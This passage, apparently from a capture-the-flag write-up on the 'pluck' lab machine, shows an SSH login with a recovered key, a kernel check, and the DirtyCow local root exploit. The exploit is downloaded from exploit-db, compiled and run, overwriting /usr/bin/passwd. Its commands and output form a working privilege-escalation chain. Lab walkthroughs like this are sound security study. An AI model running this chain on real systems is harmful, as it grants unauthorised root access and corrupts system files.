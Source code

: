 <p>We have the paul's shell! </p>

{% highlight bash %}
root@kali:~/Documents/backup/home/paul/keys# ssh -i id_key4 paul@10.0.2.6
Last login: Sat Mar 25 18:53:58 2017 from 10.0.2.15
uid=1002(paul) gid=1002(paul) groups=1002(paul)

Press Enter to return to Pdmenu.
paul@pluck:~$
{% endhighlight %}

<p>Now, last part - privilage escalation. Let's firstly see, which version of Linux kernel we're running. </p>

{% highlight bash %}
paul@pluck:~$ uname -a
Linux pluck 4.8.0-22-generic #24-Ubuntu SMP Sat Oct 8 09:15:00 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
{% endhighlight %}

<p>Linux 4.8? <a href="https://dirtycow.ninja/"><b>DirtyCow</b></a> should work against this kind of kernel. We will firstly download it, compile and hopefully it will give us root. </p>

{% highlight bash %}
paul@pluck:~$ wget https://www.exploit-db.com/download/40616
--2017-03-25 19:14:29--  https://www.exploit-db.com/download/40616
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4965 (4.8K) [application/txt]
Saving to: ‘40616’

40616               100%[===================>]   4.85K  --.-KB/s    in 0s      

2017-03-25 19:14:30 (149 MB/s) - ‘40616’ saved [4965/4965]

paul@pluck:~$ mv 40616 dirtycow.c
paul@pluck:~$ gcc dirtycow.c -o  dirtycow -pthread
dirtycow.c: In function ‘procselfmemThread’:
dirtycow.c:99:17: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [-Wint-conversion]
         lseek(f,map,SEEK_SET);
                 ^~~
In file included from dirtycow.c:28:0:
/usr/include/unistd.h:337:16: note: expected ‘__off_t {aka long int}’ but argument is of type ‘void *’
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^~~~~
dirtycow.c: In function ‘main’:
dirtycow.c:136:5: warning: implicit declaration of function ‘asprintf’ [-Wimplicit-function-declaration]
     asprintf(&backup, "cp %s /tmp/bak", suid_binary);
     ^~~~~~~~
dirtycow.c:140:5: warning: implicit declaration of function ‘fstat’ [-Wimplicit-function-declaration]
     fstat(f,&st);
     ^~~~~
dirtycow.c:142:30: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘__off_t {aka long int}’ [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
                              ^
paul@pluck:~$ ./dirtycow
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 54256
Racing, this may take a while..
thread stopped
/usr/bin/passwd is overwritten